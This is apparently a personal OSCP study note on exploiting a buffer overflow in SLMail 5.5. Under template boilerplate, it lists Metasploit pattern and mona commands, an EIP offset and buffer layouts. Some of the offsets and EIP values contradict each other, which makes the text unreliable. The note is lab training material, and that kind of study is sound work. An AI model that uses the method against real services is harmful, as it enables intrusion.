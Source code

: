 # index

Note 1

`method is new`

_bold_ **bold** _**bold**_

```python
s = "Python syntax highlighting"
print s
```

**As Grace Hopper said:**

> I’ve always been more interested in the future than in the past.

[https://github.com/hyperreality/OSCP-Buffer-Overflow-in-30-minutes](https://github.com/hyperreality/OSCP-Buffer-Overflow-in-30-minutes) [https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow) 

\(SLMail 5.5\) using jmp esp at 5f4a358f man asci i

## 1. Find bytes needed to crash service

```text
use python module: exam01.py 
```

​`Note: bytes = 3000`

## 2. Pattern create for finding exact spot

```text
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
!mona pc 3000 
use python module: exam02.py
```

`Note: EIP = 6E42366E`

## 3a. Pattern\_offset - Find Offset of EIP in Buffer

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 39694438  
!mona po e.g. 6E42366E
```

`Note: exact match at offset = 1189`

## 3b. Verify Verify exact location of EIP 

- \[\*\] Exact match at offset 1189 buffer = "A" \* 1189 + "B" \* 4 + "C" \* 90 Total = 3000, where slmail crashed

use python module: exam03.py !mona suggest

## 3c. Determine max buffer

 use python module: 3-jk\_poc02.py Send an extra large buffer buffer = "A" _2606 + "B"_ 4 + "C" \* \(3500 – 2606 - 4\) Note: 429 bytes free

